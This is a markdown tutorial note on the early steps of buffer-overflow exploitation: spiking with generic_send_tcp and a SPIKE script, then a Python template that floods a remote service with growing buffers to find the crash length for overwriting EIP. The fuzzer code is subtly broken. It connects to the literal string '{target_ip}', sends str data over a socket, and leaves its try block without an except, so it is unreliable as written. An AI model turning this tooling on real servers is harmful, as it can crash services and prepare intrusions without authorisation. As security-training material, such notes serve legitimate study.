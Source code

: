 # Locating

## Spiking

+ Spiking is the process of looking for input vectors that may facilitate a buffer oveflow attack
+ Best optimised with scripts
+ Typically done on remote targets where the binary can't be decompiled

### Using 'generic send tcp'

Generic send tcp is a spiking/fuzzing tool for remote targets.

#### Usage

`generic_send_tcp (host) (port) (spike_script.spk) (SKIPVAR) (SKIPSTR)`

`generic_send_tcp 192.168.0.100 701 login.spk 0 0`

#### Spike Script

```
//Example spike script

s_readline(); //Read standard out (after connect)
s_string("Relevant Server Command to Test "); //Send string to remote prompt
s_string_variable("Argument To Fuzz"); //Send a arbitary argument that will be used to fuzz for vulnerabilities 
```

## Fuzzing

+ Fuzzing is used to determine at which input byte size (input string length) a program crashes/segmentation faults
+ Knowing this length is important to crafting exploits for the return pointer/EIP to 'execute'

### Simple Python Remote Target Fuzzer

Simple remote server fuzzer template, useful for finding the byte size at which a remote buffer overflows:

```
import sys, socket
from time import sleep

current_buffer = "A" * 100  # Arbitary inital buffer length --> Should be adapted on a scenario basis
target_ip = '192.168.0.0'  # Place holder host/target/remote server IP address
target_port = 9999  # Place holder host/target/remote server port number


while True:

	try:

		sock = socket.socket(socket.AF_INET, socket.SOCK_STREAM)
		sock.connect(('{target_ip}', target_port))  # Form socket connection to remote server

		sock.send(('RELEVANT SERVER COMMAND' + current_buffer))  # Add current test buffer size as an argument to fuzz desired command
		sock.close()
		sleep(1)  # Reduce load on remote server

		current_buffer = current_buffer + "A" * 100  # Index the buffer by another arbitary ammount

```